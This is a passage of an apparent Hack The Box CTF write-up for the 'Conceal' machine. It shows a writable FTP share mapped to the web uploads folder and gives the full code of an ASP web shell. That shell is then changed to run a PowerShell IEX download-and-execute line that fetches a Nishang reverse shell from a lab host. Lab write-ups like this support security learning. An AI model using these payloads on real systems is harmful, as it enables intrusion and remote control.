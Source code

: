 ![Untitled](/HTB/conceal-2.png)

`/upload` seems to be empty.

At this point I start enumerating the ftp but when I login anonymously I don’t found anything.

![Untitled](/HTB/conceal-3.png)

In the uploads directory of the website we don’t find anything as well so I have attempted to upload something to the ftp share in order to know if it’s the same directory.

So I create a test folder to see if the website list it.

![Untitled](/HTB/conceal-4.png)

We can see that uploads list now new content.

## Exploiting TCP

Well we can upload files, so as the website is **Windows** maybe is running **ASP.NET** let’s try to upload a **aspx** web shell.

```bash
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("whoami")
Response.Write(cmd.StdOut.ReadAll)
%>
```

![Untitled](/HTB/conceal-5.png)

When I try to access to the shell the page display the above 404 error. If we read the page, the error is due to the extension configuration also we can see that **ASP.NET** is used.

As we have an extension problem, should we try to execute the shell with other **ASP.NET** extensions like asp.

![Untitled](/HTB/conceal-6.png)

The shell is working now.

Now we have **RCE** let’s send the **[Nishang](https://github.com/samratashok/nishang) TCP reverse shell.**

We can perform it only changing the **whoami** command.

```bash
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/PS.ps1')")
Response.Write(cmd.StdOut.ReadAll)
%>
```

